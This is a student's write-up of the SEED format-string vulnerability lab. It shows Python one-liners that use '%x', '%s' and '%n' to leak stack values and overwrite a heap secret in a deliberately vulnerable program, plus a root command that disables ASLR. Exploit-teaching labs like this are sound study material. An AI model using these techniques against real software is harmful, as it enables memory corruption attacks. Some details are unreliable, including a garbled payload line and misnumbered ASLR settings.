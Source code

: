 Format String Vulnerability Lab
===============================

http://www.cis.syr.edu/~wedu/seed/Labs\_12.04/Software/Format\_String/

Lab1
----

Files:

-  Makefile
-  vul\_prog.c

Summary
~~~~~~~

`vul_prog.c` give a malloced array `secret` and asked you to get the
value of `scret[1]` and overwrite it. I can do that when this program
compiled as 32 bits but there still some unsolved problems in 64 bit.

`vul_prog.c` give us the address of `secret` every times, it means
that ASLR is no longer vaild.

below is the varibles memory layout of vul\_prog in my machine:

::

    gcc -m32 -z execstack -fno-stack-protector vul_prog.c -o vul_prog.out
    sizeof(int) 4
    userinput 0xffc6131c
    secret 0xffc61314
    int_input 0xffc61310
    a 0xffc6130c
    b 0xffc61308
    c 0xffc61304
    d 0xffc6133e
    The variable secret's address is 0xffc61318 (on stack)
    The variable secret's value is 0x 804a410 (on heap)
    secret[0]'s address is 0x 804a410 (on heap)
    secret[1]'s address is 0x 804a414 (on heap)
    Please enter a decimal integer
    ...
    Please enter a string
    ...
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x55

    Doubt: I don't know why there are 8 bytes between `user_input` and
    `int_input`

Access varible
~~~~~~~~~~~~~~

::

    printf("Please enter a decimal integer\n");
    scanf("%d", &int_input);  /* getting an input from user */
    printf("Please enter a string\n");
    scanf("%s", user_input); /* getting a string from user */

    /* Vulnerable place */
    printf(user_input);
    printf("\n");

As you see, `printf` print a user-input string without any parameter
(IT IS DANGREOUS), we can use it to access varible on stack.

first, find the location of `int_input`:

::

    $ make
    $ python -c "print('57005'); print('%x-'*20)" | ./vul_prog.out | grep dead
    ...
    ffa49ddc-ffa49dc8-ffa49dc4-ffa49dfe-1-c2-f75b21c3-ffa49dfe-dead-804b010-252d7825- ...
                                                               ^^^^ ^^^^^^^
    ...

    57005 = 0xdead

so we can access `int_input` by input string `'%x'*9`, and
`secret` can be accessd by `'%x'*10`.

How to get the value of `scret[0]`?

::

    $ python -c "print('57005'); print('%x-'*9 + '%s')" | ./vul_prog.out
    ...
    ffd6f1fc-ffd6f1e8-ffd6f1e4-ffd6f21e-1-c2-f76061c3-ffd6f21e-dead-D
                                                                    ^
    ...

`hex(ord('D'))` is `0x44`, the vaule of `secret[0]`.

How to get the value of `scret[1]`?

We can control the value of `int_input`, and we know the address of
`secret[1]` (from the output of program), more convience, we can close
ASLR so that we don't need to input the variable address everytime.

::

    $ su -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

    randomize\_va\_space values

    1. Disable ASLR. This setting is applied if the kernel is booted
       with the norandmaps boot parameter
    2. Randomize the positions of the stack, virtual dynamic shared
       object (VDSO) page, and shared memory regions. The base address
       of the data segment is located immediately after the end of the
       executable code segment
    3. Randomize the positions of the stack, VDSO page, shared memory
       regions, and the data segment. This is the default setting.

Address of `secret[1]` is 0x804a414, converts to decimal is 134521876:

::

    $ python -c "print('134521876'); print('%x-'*8 + '%s')" | ./vul_prog.out
    ...
    ffc6131c-ffc61308-ffc61304-ffc6133e-1-c2-f75921c3-ffc6133e-U
                                                               ^
    ...

`hex(ord('U'))` is `0x55`, the vaule of `secret[1]`.

Overwrite varible
~~~~~~~~~~~~~~~~~

    %n: Nothing printed. The corresponding argument must be a pointer to
    a signed int. The number of characters written so far is stored in
    the pointed location.

Use `%n` write a vaule to `scret[1]`:

::

    $ python -c "print('134521876'); print('%x-'*8 + '%n')" | ./vul_prog.out
    ...
    ff9efafc-ff9efae8-ff9efae4-ff9efb1e-1-c2-f76671c3-ff9efb1e-
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x3b
                                  ^^^^

`secret[1]` has changed to 0x3b

Write a arbitrary (?) value to `scret[1]` (by controlling the length
of output string):

::

    $ python -c "print('134521876'); print('%x-'*8 + '0'*+ '%n')" | ./vul_prog.out
    ...
    ff868acc-ff868ab8-ff868ab4-ff868aee-1-c2-f762c1c3-ff868aee-00000000000 ...
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x233
                                  ^^^^^
    [1]    3824 done                              python -c "print('134521876'); print('%x-'*8 + '0'*504 + '%n')" |
           3825 segmentation fault (core dumped)  ./vul_prog.out

It seem that the value can no smaller then 0x3b, and too large string
will causes segmentation fault. (is it right?)

64 bit
~~~~~~

To get a 64bit executable, invoke `make ARCH=64 vul_prog.out`

Memory layout:

::

    sizeof(int *): 8
    userinput 0x7fffffffe550
    secret 0x7fffffffe548
    int_input 0x7fffffffe544
    a 0x7fffffffe540
    b 0x7fffffffe53c
    c 0x7fffffffe538
    d 0x7fffffffe534
    The variable secret's address is 0xffffe548 (on stack)
    The variable secret's value is 0x  601420 (on heap)
    secret[0]'s address is 0x  601420 (on heap)
    secret[1]'s address is 0x  601424 (on heap)

    NOTE: size of x64 stack cell is 8 byte, sizeof(int) = 4, sizeof(int
    \*) = 8

::

     high                low
    |-----------------------|
    |         secret        |
    |-----------------------|
    | int_input |     a     |
    |-----------------------|
    |     b     |     c     |
    |-----------------------|
    |     d     |           |
    |-----------------------|
     low

Access `secret[0]`:

::

    $ python -c "print('57005'); print('%016lx-'*10 + '%s')" | ./vul_prog.out
    ...
    0000000000000001-00007ffff7dd5770-000000000000000a-0000000000400a30-0000000000000000-\
    00007fffffffe6a8-0000000100000000-0000000400000000-0000000200000003-0000dead00000001-D
                                                                            ^^^^         ^
    ...

Overwrite `secret[1]`: // TODO

::

    python -c "print('57005'); print('\x24\x14\x60\x60\x00'+ '%016lx-' * 12)" | ./vul_prog.out

Lab2
----

// TODO

